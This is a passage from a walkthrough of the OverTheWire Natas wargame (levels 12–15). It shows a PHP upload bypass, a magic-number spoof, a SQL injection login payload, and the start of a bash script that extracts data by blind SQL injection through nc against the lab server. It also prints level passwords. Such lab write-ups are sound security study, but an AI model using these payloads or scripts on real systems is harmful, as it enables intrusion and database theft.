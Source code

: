 
The website renames the file with the extension .jpg but it does it client
side...  so we can change it to php (so the server will parse it) tampering our
request (or trough the attributes of the form). Once we open the link to the
file, we receive the password:


jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY


**natas13**

Same thing as before, but this time the server check if the file we give to him
is an image using the function *exif_imagetype*. After a fast search on google
we can figure out how this function works: it checks the magic number at the
beginning of the file to determine his type.

We need just to search the magic number of jpg files and add it at the
beginning of the file.

Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 


**natas14**

Time for some SQL injection, lets try this username: foo" OR 1=1;#

AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J



**natas15**

This time we can still perform SQL injections but what we can just get to know
if our query produces some result. This is still a quite big open door on the
content of the database. We can start to ask the database if he knows any user
whose name starts by 'a': `" OR username LIKE BINARY "a%" ;#` Note the use of
"BINARY" in order to obtain a case sensitive match.  The server answers "This
user exists!", cool ... let's try now with 'ab', 'ac', etc ... This is a
reasonably fast way to get the content of the database, so I made a bash script
to do the work for me:

```bash
#!/bin/bash

query_storm(){

    local USERNAME=$1
    local CONTENT_LENGTH=54
    [ $2 ] && local CONTENT_LENGTH=$2
    
    
    local HEADER="POST / HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Host: natas15.natas.labs.overthewire.org
Accept-Language: en-us
Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: $CONTENT_LENGTH\r\n\r\n"
    
    for CHAR in {A..Z} {a..z} {0..9}
    do
    
    echo "try: $USERNAME$CHAR"  

    local CONTENT="username=a%%22+OR+username+LIKE+BINARY+%%22$USERNAME$CHAR%%25%%22%%3B%%23"
    
        if printf "$HEADER$CONTENT" | nc natas15.natas.labs.overthewire.org 80 | grep -q "This user exists."
        then
```